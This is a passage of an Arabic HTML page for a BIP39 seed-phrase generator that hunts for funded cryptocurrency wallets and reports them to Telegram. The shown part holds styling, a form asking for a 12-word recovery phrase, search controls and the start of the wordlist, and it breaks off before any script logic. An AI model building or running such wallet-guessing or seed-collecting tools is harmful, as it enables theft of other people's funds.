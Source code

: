 nice
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة</title>
    <style>
        /* تصميم واجهة المستخدم المتجاوبة */
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .manual-check-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .manual-check-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
            display: flex;
            align-items: center;
            gap: 10px;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .checkbox-group {
            display: flex;
            align-items: center;
            gap: 10px;
            margin: 15px 0;
        }

        .checkbox-group input[type="checkbox"] {
            width: 20px;
            height: 20px;
        }

        .checkbox-group label {
            margin: 0;
            font-weight: 500;
            color: #495057;
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn-info {
            background: linear-gradient(135deg, #17a2b8 0%, #6fdaed 100%);
            color: white;
        }

        .btn-info:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(23, 162, 184, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .log-warning {
            color: #ffc107;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        .wallet-details {
            background: white;
            border-radius: 10px;
            padding: 20px;
            margin-top: 20px;
            border: 1px solid #e9ecef;
        }

        .wallet-details h4 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.1rem;
        }

        .wallet-info {
            display: grid;
            grid-template-columns: 1fr;
            gap: 10px;
        }

        .wallet-info-item {
            display: flex;
            justify-content: space-between;
            padding: 8px 0;
            border-bottom: 1px solid #f1f3f4;
        }

        .wallet-info-item:last-child {
            border-bottom: none;
        }

        .wallet-info-label {
            font-weight: 600;
            color: #495057;
        }

        .wallet-info-value {
            color: #6c757d;
            word-break: break-all;
            text-align: left;
        }

        .token-list {
            margin-top: 10px;
            max-height: 200px;
            overflow-y: auto;
        }

        .token-item {
            padding: 8px;
            margin-bottom: 5px;
            background: #f8f9fa;
            border-radius: 5px;
            border: 1px solid #e9ecef;
        }

        .token-name {
            font-weight: 600;
            color: #495057;
        }

        .token-symbol {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .asset-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(250px, 1fr));
            gap: 15px;
            margin-top: 15px;
        }

        .asset-card {
            background: #f8f9fa;
            padding: 15px;
            border-radius: 10px;
            border: 1px solid #e9ecef;
        }

        .asset-card h5 {
            color: #495057;
            margin-bottom: 10px;
            font-size: 1rem;
        }

        .asset-value {
            font-size: 1.2rem;
            font-weight: 700;
            color: #28a745;
        }

        .manual-input-group {
            display: flex;
            gap: 10px;
            margin-bottom: 15px;
        }

        .manual-input-group input {
            flex: 1;
        }

        .tab-buttons {
            display: flex;
            margin-bottom: 20px;
            border-bottom: 2px solid #e9ecef;
        }

        .tab-button {
            padding: 12px 24px;
            background: none;
            border: none;
            cursor: pointer;
            font-weight: 600;
            color: #6c757d;
            border-bottom: 3px solid transparent;
            transition: all 0.3s ease;
        }

        .tab-button.active {
            color: #4facfe;
            border-bottom-color: #4facfe;
        }

        .tab-content {
            display: none;
        }

        .tab-content.active {
            display: block;
        }

        /* تصميم متجاوب للهواتف المحمولة */
        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel, .manual-check-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }

            .manual-input-group {
                flex-direction: column;
            }

            .asset-grid {
                grid-template-columns: 1fr;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel, .manual-check-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }

            .tab-buttons {
                flex-direction: column;
            }

            .tab-button {
                text-align: right;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram</p>
        </div>

        <div class="main-content">
            <!-- قسم التحقق اليدوي من العبارات -->
            <div class="manual-check-panel">
                <h3>🔍 التحقق اليدوي من المحافظ</h3>
                
                <div class="tab-buttons">
                    <button class="tab-button active" data-tab="mnemonic-tab">عبارة الاسترجاع</button>
                    <button class="tab-button" data-tab="address-tab">عنوان المحفظة</button>
                </div>

                <!-- تبويب عبارة الاسترجاع -->
                <div id="mnemonic-tab" class="tab-content active">
                    <div class="control-group">
                        <label for="manualMnemonic">أدخل عبارة الاسترجاع (12 كلمة):</label>
                        <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع هنا (12 كلمة)"></textarea>
                    </div>
                    
                    <div class="checkbox-group">
                        <input type="checkbox" id="manualCheckTokens" checked>
                        <label for="manualCheckTokens">البحث عن جميع الأصول والرموز المميزة</label>
                    </div>
                    
                    <div class="button-group">
                        <button id="checkMnemonicBtn" class="btn btn-info">
                            <span>🔎 فحص العبارة</span>
                        </button>
                    </div>
                </div>

                <!-- تبويب عنوان المحفظة -->
                <div id="address-tab" class="tab-content">
                    <div class="control-group">
                        <label for="manualAddress">أدخل عنوان المحفظة:</label>
                        <input type="text" id="manualAddress" placeholder="0x..." style="font-family: monospace;">
                    </div>
                    
                    <div class="checkbox-group">
                        <input type="checkbox" id="addressCheckTokens" checked>
                        <label for="addressCheckTokens">البحث عن جميع الأصول والرموز المميزة</label>
                    </div>
                    
                    <div class="button-group">
                        <button id="checkAddressBtn" class="btn btn-info">
                            <span>🔎 فحص العنوان</span>
                        </button>
                    </div>
                </div>
                
                <div id="manualCheckResult" class="wallet-details" style="display: none;">
                    <!-- سيتم ملء هذا القسم بالنتائج -->
                </div>
            </div>

            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="3000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="checkbox-group">
                    <input type="checkbox" id="checkTokens" checked>
                    <label for="checkTokens">البحث عن جميع الأصول والرموز المميزة</label>
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-warning">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء...
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp">[${new Date().toLocaleTimeString('ar-EG')}]</span>
                    مرحباً بك في مولد عبارات BIP39. اضغط على "بدء البحث" للبدء.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية (مختصرة لأغراض العرض)
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "afford", "afraid", "after", "again",
            "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm", "album",
            "alcohol", "alert", "alien", "all", "alley", "allow", "almost", "alone", "alpha", "already",
            "also", "alter", "always", "amateur", "amazing", "among", "amount", "amused", "analyst", "anchor",
            "ancient", "anger", "angle", "angry", "animal", "announce", "annual", "another", "answer", "antenna",
            "antique", "anxiety", "any", "apart", "apology", "appear", "apple", "approve", "april", "area",
            "arena", "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive",
            "arrow", "art", "artefact", "artist", "artwork", "ask", "aspect", "assault", "asset", "assist",
            "assume", "asthma", "athlete", "atom", "attack", "attend", "attitude", "attract", "auction", "audit",
            "august", "aunt", "author", "auto", "autumn", "average", "avocado", "avoid", "awake", "aware",
            "away", "awesome", "awful", "awkward", "axis", "baby", "bachelor", "bacon", "badge", "bag",
            "balance", "balcony", "ball", "bamboo", "banana", "banner", "bar", "barely", "bargain", "barrel",
            "base", "basic", "basket", "battle", "beach", "bean", "beauty", "because", "become", "beef",
            "before", "begin", "behave", "behind", "believe", "below", "belt", "bench", "benefit", "best",
            "betray", "better", "between", "beyond", "bicycle", "bid", "bike", "bind", "biology", "bird",
            "birth", "bitter", "black", "blade", "blame", "blanket", "blast", "bleak", "bless", "blind",
            "blood", "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil",
            "bomb", "bone", "bonus", "book", "boost", "border", "boring", "borrow", "boss", "bottom",
            "bounce", "box", "boy", "bracket", "brain", "brand", "brass", "brave", "bread", "breeze",
            "brick", "bridge", "brief", "bright", "bring", "brisk", "broccoli", "broken", "bronze", "broom",
            "brother", "brown", "brush", "bubble", "buddy", "budget", "buffalo", "build", "bulb", "bulk",
            "bullet", "bundle", "bunker", "burden", "burger", "burst", "bus", "business", "busy", "butter",
            "buyer", "buzz", "cabbage", "cabin", "cable", "cactus", "cage", "cake", "call", "calm",
            "camera", "camp", "can", "canal", "cancel", "candy", "cannon", "canoe", "canvas", "canyon",
            "capable", "capital", "captain", "car", "carbon", "card", "cargo", "carpet", "carry", "cart",
            "case", "cash", "casino", "castle", "casual", "cat", "catalog", "catch", "category", "cattle",
            "caught", "cause", "caution", "cave", "ceiling", "celery", "cement", "census", "century", "ceremony",
            "certain", "chair", "chalk", "champion", "change", "chaos", "chapter", "charge", "chase", "chat",
            "cheap", "check", "cheek", "cheese", "chef", "cherry", "chest", "chicken", "chief", "child",
            "chimney", "choice", "choose", "chronic", "chuckle", "chunk", "churn", "cigar", "cinnamon", "circle",
            "citizen", "city", "civil", "claim", "clap", "clarify", "claw", "clay", "clean", "clerk",
            "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock", "clog", "close",
            "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach", "coast", "coconut",
            "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come", "comfort",
            "comic", "common", "company", "concert", "conduct", "confirm", "congress", "connect", "consider", "control",
            "convince", "cook", "cool", "copper", "copy", "coral", "core", "corn", "correct", "cost",
            "cotton", "couch", "country", "couple", "course", "cousin", "cover", "coyote", "crack", "cradle",
            "craft", "cram", "crane", "crash", "crater", "crawl", "crazy", "cream", "credit", "creek",
            "crew", "cricket", "crime", "crisp", "critic", "crop", "cross", "crouch", "crowd", "crucial",
            "cruel", "cruise", "crumble", "crunch", "crush", "cry", "crystal", "cube", "culture", "cup",
            "cupboard", "curious", "current", "curtain", "curve", "cushion", "custom", "cute", "cycle", "dad",
            "damage", "damp", "dance", "danger", "daring", "dark", "dash", "date", "daughter", "dawn",
            "day", "deal", "debate", "debris", "decade", "december", "decide", "decline", "decorate", "decrease",
            "deer", "defense", "define", "defy", "degree", "delay", "deliver", "demand", "demise", "denial",
            "dentist", "deny", "depart", "depend", "deposit", "depth", "deputy", "derive", "describe", "desert",
            "design", "desk", "despair", "destroy", "detail", "detect", "develop", "device", "devote", "diagram",
            "dial", "diamond", "diary", "dice", "diesel", "diet", "differ", "digital", "dignity", "dilemma",
            "dinner", "dinosaur", "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder",
            "display", "distance", "divert", "divide", "divorce", "dizzy", "doctor", "document", "dog", "doll",
            "dolphin", "domain", "donate", "donkey", "donor", "door", "dose", "double", "dove", "draft",
            "dragon", "drama", "drastic", "draw", "dream", "dress", "drift", "drill", "drink", "drip",
            "drive", "drop", "drum", "dry", "duck", "dumb", "dune", "during", "dust", "dutch",
            "duty", "dwarf", "dynamic", "eager", "eagle", "early", "earn", "earth", "easily", "east",
            "easy", "echo", "ecology", "economy", "edge", "edit", "educate", "effort", "egg", "eight",
            "either", "elbow", "elder", "electric", "elegant", "element", "elephant", "elevator", "elite", "else",
            "embark", "embody", "embrace", "emerge", "emotion", "employ", "empower", "empty", "enable", "enact",
            "end", "endless", "endorse", "enemy", "energy", "enforce", "engage", "engine", "enhance", "enjoy",
            "enlist", "enough", "enrich", "enroll", "ensure", "enter", "entire", "entry", "envelope", "episode",
            "equal", "equip", "era", "erase", "erode", "erosion", "error", "erupt", "escape", "essay",
            "essence", "estate", "eternal", "ethics", "evidence", "evil", "evoke", "evolve", "exact", "example",
            "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust", "exhibit", "exile",
            "exist", "exit", "exotic", "expand", "expect", "expire", "explain", "expose", "express", "extend",
            "extra", "eye", "eyebrow", "fabric", "face", "faculty", "fade", "faint", "faith", "fall",
            "false", "fame", "family", "famous", "fan", "fancy", "fantasy", "farm", "fashion", "fat",
            "fatal", "father", "fatigue", "fault", "favorite", "feature", "february", "federal", "fee", "feed",
            "feel", "female", "fence", "festival", "fetch", "fever", "few", "fiber", "fiction", "field",
            "figure", "file", "film", "filter", "final", "find", "fine", "finger", "finish", "fire",
            "firm", "first", "fiscal", "fish", "fit", "fitness", "fix", "flag", "flame", "flash",
            "flat", "flavor", "flee", "flight", "flip", "float", "flock", "floor", "flower", "fluid",
            "flush", "fly", "foam", "focus", "fog", "foil", "fold", "follow", "food", "foot",
            "force", "foreign", "forest", "forget", "fork", "fortune", "forum", "forward", "fossil", "foster",
            "found", "fox", "fragile", "frame", "frequent", "fresh", "friend", "fringe", "frog", "front",
            "frost", "frown", "frozen", "fruit", "fuel", "fun", "funny", "furnace", "fury", "future",
            "gadget", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden", "garlic",
            "garment", "gas", "gasp", "gate", "gather", "gauge", "gaze", "general", "genius", "genre",
            "gentle", "genuine", "gesture", "ghost", "giant", "gift", "giggle", "ginger", "giraffe", "girl",
            "give", "glad", "glance", "glare", "glass", "glide", "glimpse", "globe", "gloom", "glory",
            "glove", "glow", "glue", "goat", "goddess", "gold", "good", "goose", "gorilla", "gospel",
            "gossip", "govern", "gown", "grab", "grace", "grain", "grant", "grape", "grass", "gravity",
            "great", "green", "grid", "grief", "grit", "grocery", "group", "grow", "grunt", "guard",
            "guess", "guide", "guilt", "guitar", "gun", "gym", "habit", "hair", "half", "hammer",
            "hamster", "hand", "happy", "harbor", "hard", "harsh", "harvest", "hat", "have", "hawk",
            "hazard", "head", "health", "heart", "heavy", "hedgehog", "height", "hello", "helmet", "help",
            "hen", "hero", "hidden", "high", "hill", "hint", "hip", "hire", "history", "hobby",
            "hockey", "hold", "hole", "holiday", "hollow", "home", "honey", "hood", "hope", "horn",
            "horror", "horse", "hospital", "host", "hotel", "hour", "hover", "hub", "huge", "human",
            "humble", "humor", "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "husband", "hybrid",
            "ice", "icon", "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image",
            "imitate", "immense", "immune", "impact", "impose", "improve", "impulse", "inch", "include", "income",
            "increase", "index", "indicate", "indoor", "industry", "infant", "inflict", "inform", "inhale", "inherit",
            "initial", "inject", "injury", "inmate", "inner", "innocent", "input", "inquiry", "insane", "insect",
            "inside", "inspire", "install", "intact", "interest", "into", "invest", "invite", "involve", "iron",
            "island", "isolate", "issue", "item", "ivory", "jacket", "jaguar", "jar", "jazz", "jealous",
            "jeans", "jelly", "jewel", "job", "join", "joke", "journey", "joy", "judge", "juice",
            "jump", "jungle", "junior", "junk", "just", "kangaroo", "keen", "keep", "ketchup", "key",
            "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit", "kitchen", "kite", "kitten",
            "kiwi", "knee", "knife", "knock", "know", "lab", "label", "labor", "ladder", "lady",
            "lake", "lamp", "language", "laptop", "large", "later", "latin", "laugh", "laundry", "lava",
            "law", "lawn", "lawsuit", "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture",
            "left", "leg", "legal", "legend", "leisure", "lemon", "lend", "length", "lens", "leopard",
            "lesson", "letter", "level", "liar", "liberty", "library", "license", "life", "lift", "light",
            "like", "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "lizard",
            "load", "loan", "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lottery",
            "loud", "lounge", "love", "loyal", "lucky", "luggage", "lumber", "lunar", "lunch", "luxury",
            "lyrics", "machine", "mad", "magic", "magnet", "maid", "mail", "main", "major", "make",
            "mammal", "man", "manage", "mango", "mansion", "manual", "maple", "marble", "march", "margin",
            "marine", "market", "marriage", "mask", "mass", "master", "match", "material", "math", "matrix",
            "matter", "maximum", "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media",
            "melody", "melt", "member", "memory", "mention", "menu", "mercy", "merge", "merit", "merry",
            "mesh", "message", "metal", "method", "middle", "midnight", "milk", "million", "mimic", "mind",
            "minimum", "minor", "minute", "miracle", "mirror", "misery", "miss", "mistake", "mix", "mixed",
            "mixture", "mobile", "model", "modify", "mom", "moment", "monitor", "monkey", "monster", "month",
            "moon", "moral", "more", "morning", "mosquito", "mother", "motion", "motor", "mountain", "mouse",
            "move", "movie", "much", "muffin", "mule", "multiply", "muscle", "museum", "mushroom", "music",
            "must", "mutual", "myself", "mystery", "myth", "naive", "name", "napkin", "narrow", "nasty",
            "nation", "nature", "near", "neck", "need", "negative", "neglect", "neither", "nephew", "nerve",
            "nest", "net", "network", "neutral", "never", "news", "next", "nice", "night", "noble",
            "noise", "nominee", "noodle", "normal", "north", "nose", "notable", "note", "nothing", "notice",
            "novel", "now", "nuclear", "number", "nurse", "nut", "oak", "obey", "object", "oblige",
            "obscure", "observe", "obtain", "obvious", "occur", "ocean", "october", "odor", "off", "offer",
            "office", "often", "oil", "okay", "old", "olive", "olympic", "omit", "once", "one",
            "onion", "online", "only", "open", "opera", "opinion", "oppose", "option", "orange", "orbit",
            "orchard", "order", "ordinary", "organ", "orient", "original", "orphan", "ostrich", "other", "outdoor",
            "outer", "output", "outside", "oval", "oven", "over", "own", "owner", "oxygen", "oyster",
            "ozone", "pact", "paddle", "page", "pair", "palace", "palm", "panda", "panel", "panic",
            "panther", "paper", "parade", "parent", "park", "parrot", "party", "pass", "patch", "path",
            "patient", "patrol", "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant",
            "pelican", "pen", "penalty", "pencil", "people", "pepper", "perfect", "permit", "person", "pet",
            "phone", "photo", "phrase", "physical", "piano", "picnic", "picture", "piece", "pig", "pigeon",
            "pill", "pilot", "pink", "pioneer", "pipe", "pistol", "pitch", "pizza", "place", "planet",
            "plastic", "plate", "play", "player", "pleasure", "pledge", "pluck", "plug", "plunge", "poem",
            "poet", "point", "polar", "pole", "police", "pond", "pony", "pool", "popular", "portion",
            "position", "possible", "post", "potato", "pottery", "poverty", "powder", "power", "practice", "praise",
            "predict", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride", "primary", "print",
            "priority", "prison", "private", "prize", "problem", "process", "produce", "profit", "program", "project",
            "promote", "proof", "property", "prosper", "protect", "proud", "provide", "public", "pudding", "pull",
            "pulp", "pulse", "pumpkin", "punch", "pupil", "puppy", "purchase", "purity", "purpose", "purse",
            "push", "put", "puzzle", "pyramid", "quality", "quantum", "quarter", "question", "quick", "quit",
            "quiz", "quote", "rabbit", "raccoon", "race", "rack", "radar", "radio", "rail", "rain",
            "raise", "rally", "ramp", "ranch", "random", "range", "rapid", "rare", "rate", "rather",
            "raven", "raw", "razor", "ready", "real", "reason", "rebel", "rebuild", "recall", "receive",
            "recipe", "record", "recycle", "reduce", "reflect", "reform", "refuse", "region", "regret", "regular",
            "reject", "relax", "release", "relief", "rely", "remain", "remember", "remind", "remove", "render",
            "renew", "rent", "reopen", "repair", "repeat", "replace", "report", "require", "rescue", "resemble",
            "resist", "resource", "response", "result", "retire", "retreat", "return", "reunion", "reveal", "review",
            "reward", "rhythm", "rib", "ribbon", "rice", "rich", "ride", "ridge", "rifle", "right",
            "rigid", "ring", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "runway", "rural",
            "sad", "saddle", "sadness", "safe", "sail", "salad", "salmon", "salon", "salt", "same",
            "sample", "sand", "satisfy", "satoshi", "sauce", "sausage", "save", "say", "scale", "scan",
            "scare", "scatter", "scene", "scheme", "school", "science", "scissors", "scorpion", "scout", "scrap",
            "screen", "script", "scrub", "sea", "search", "season", "seat", "second", "secret", "section",
            "security", "seed", "seek", "segment", "select", "sell", "seminar", "senior", "sense", "sentence",
            "series", "service", "session", "settle", "setup", "seven", "shadow", "shaft", "shallow", "share",
            "shed", "shell", "sheriff", "shield", "shift", "shine", "ship", "shiver", "shock", "shoe",
            "shoot", "shop", "short", "shoulder", "shove", "shrimp", "shrug", "shuffle", "shy", "sibling",
            "sick", "side", "siege", "sight", "sign", "silent", "silk", "silly", "silver", "similar",
            "simple", "since", "sing", "siren", "sister", "situate", "six", "size", "skate", "sketch",
            "ski", "skill", "skin", "skirt", "skull", "slab", "slam", "sleep", "slender", "slice",
            "slide", "slight", "slim", "slogan", "slot", "slow", "slush", "small", "smart", "smile",
            "smoke", "smooth", "snack", "snake", "snap", "sniff", "snow", "soap", "soccer", "social",
            "sock", "soda", "soft", "solar", "soldier", "solid", "solution", "solve", "someone", "song",
            "soon", "sorry", "sort", "soul", "sound", "soup", "source", "south", "space", "spare",
            "spatial", "spawn", "speak", "special", "speed", "spell", "spend", "sphere", "spice", "spider",
            "spike", "spin", "spirit", "split", "spoil", "sponsor", "spoon", "sport", "spot", "spray",
            "spread", "spring", "spy", "square", "squeeze", "squirrel", "stable", "stadium", "staff", "stage",
            "stairs", "stamp", "stand", "start", "state", "stay", "steak", "steel", "stem", "step",
            "stereo", "stick", "still", "sting", "stock", "stomach", "stone", "stool", "story", "stove",
            "strategy", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunny", "sunset", "super", "supply", "support", "sure", "surface", "surge", "surprise",
            "surround", "survey", "suspect", "sustain", "swallow", "swamp", "swap", "swarm", "swear", "sweet",
            "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system", "table",
            "tackle", "tag", "tail", "talent", "talk", "tank", "tape", "target", "task", "taste",
            "tattoo", "taxi", "teach", "team", "tell", "ten", "tenant", "tennis", "tent", "term",
            "test", "text", "thank", "that", "theme", "then", "theory", "there", "they", "thing",
